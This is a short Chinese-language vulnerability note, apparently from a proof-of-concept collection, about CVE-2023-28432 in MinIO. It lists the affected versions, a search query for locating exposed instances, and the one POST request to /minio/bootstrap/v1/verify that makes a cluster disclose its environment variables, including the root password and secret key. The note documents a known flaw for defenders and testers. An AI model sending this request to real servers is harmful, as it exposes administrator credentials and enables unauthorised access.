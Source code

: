 # MinIO verify 敏感信息泄漏漏洞 CVE-2023-28432

## 漏洞描述

Minio 是一个多云对象存储框架。在从RELEASE.2019-12-17T23-16-33Z开始到RELEASE.2023-03-20T20-16-18Z之前的集群部署中，MinIO存在漏洞发送请求后返回所有环境变量，包括MINIO_SECRET_KEY和MINIO_ROOT_PASSWORD，导致信息泄露。分布式部署的所有用户都会受到影响

## 漏洞影响

```
MinIO <= RELEASE.2023-03-20T20-16-18Z
```

## 网络测绘

```
app="minio"
```

## 漏洞复现

登陆页面

![image-20230417093052971](images/image-20230417093052971.png)

验证POC (默认端口:9000)

```
POST /minio/bootstrap/v1/verify
```

![image-20230417093122553](images/image-20230417093122553.png)
